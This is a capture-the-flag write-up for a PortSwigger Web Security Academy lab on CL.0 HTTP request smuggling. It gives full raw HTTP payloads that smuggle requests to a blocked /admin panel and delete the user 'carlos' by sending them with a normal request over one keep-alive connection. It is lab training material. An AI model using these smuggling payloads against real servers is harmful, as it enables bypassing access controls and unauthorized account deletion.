






# CL.0 request smuggling
# Objective
This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the `Content-Length` header on requests to some endpoints.

To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at `/admin`, then delete the user `carlos`.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling.


# Solution
## Analysis
### Confirming that /admin path exists

||
|:--:| 
| *Path /admin exists and is blocked* |

### CL.0 attempt
HTTP status code `404 Not Found` confirms `CL.0` vulnerability.

Steps that lead to smuggled request execution:
1. Create one tab in Repeater.
2. Prepare test payload.
3. Change the `Connection` header to `keep-alive` in test payload request.
4. Add test payload and normal request to the tab (order of requests matters!).
5. Use `Send group in sequence (single connection)`.

Test payload: 
```
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

GET /smuggled HTTP/1.1
Foo: x
```

Normal request:
```
GET / HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

||
|:--:| 
| *Preparing payload* |
||
| *Sending payload - Request was smuggled successfuly* |

## Exploitation

First request poisoned the back-end. Second request (normal request) was added to the end of the previous request - the `GET <sth> HTTP/1.1` was ignored thanks to `Foo` header and smuggled request was executed.

Both of these requests was sent in single connection (`Connection: keep-alive`).

Payload 1:
```
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```

Payload 2: 
```
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

Normal request:
```
GET / HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

||
|:--:| 
| *Sending payload 1 - Request was smuggled successfuly* |
||
| *Preparing payload 2* |
||
| *Sending payload 2 - Request was smuggled successfuly - Deletion of user Carlos* |

